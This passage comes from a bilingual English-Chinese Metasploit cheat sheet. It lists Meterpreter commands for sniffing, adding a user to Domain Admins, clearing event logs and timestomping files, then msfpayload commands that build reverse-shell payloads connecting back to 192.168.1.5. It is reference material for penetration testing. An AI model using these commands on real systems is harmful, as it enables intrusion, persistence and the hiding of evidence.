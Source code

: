 `sniffer_start interfaceID packet-buffer`
Start sniffing with a specific range for a packet buffer.
在目标主机上针对特定范围的数据包缓冲区启动嗅探。

`sniffer_stats interfaceID`
Grab statistical information from the interface you are sniffing.
获取正在实施嗅探网络接口的统计数据。

`sniffer_stop interfaceID`
Stop the sniffer.
停止嗅探。

`add_user username password -h ip`
Add a user on the remote target.
在远程目标主机上添加一个用户。

`add_group_user "Domain Admins" username -h ip`
Add a username to the Domain Administrators group on the remote target.
将用户添加到目标主机的域管理员组中。

`clearev`
Clear the event log on the target machine.
清除目标主机上的日志记录。

`timestomp`
Change file attributes, such as creation date (antiforensics measure).
修改文件属性，例如修改文件的创建时间（反取证调查）。

`reboot`
Reboot the target machine.
重启目标主机。

## 三、MSFpyaload命令

`msfpayload -h`
List available payloads.
MSFpayload的帮助信息。

`msfpayload windows/meterpreter/bind_tcp O`
List available options for the  windows/meterpreter/bind_tcp payload (all of these can use any payload).
列出所有windows/meterpreter/bind_tcp下攻击载荷的配置项（任何攻击载荷都是可以配置的）。

`msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 X > payload.exe`
Create a Meterpreter reverse_tcp payload to connect back to 192.168.1.5 and on port 443, and then save it as a Windows Portable Executable named payload.exe.
创建一个Meterpreter的reverse_tcp攻击载荷，回连到192.168.1.5的443端口，将其保存为名为payload.exe的Windows可执行程序。

`msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R > payload.raw`
Same as above, but export as raw format. This will be used later in msfencode.
与上面生成同样的攻击载荷，但导出成原始格式的文件，该文件将在后面的MSFencode中使用。


`msfpayload windows/meterpreter/bind_tcp LPORT=443 C > payload.c`
Same as above but export as C-formatted shellcode.
与上面生成同样的攻击载荷，但导出成C格式的shellcode。
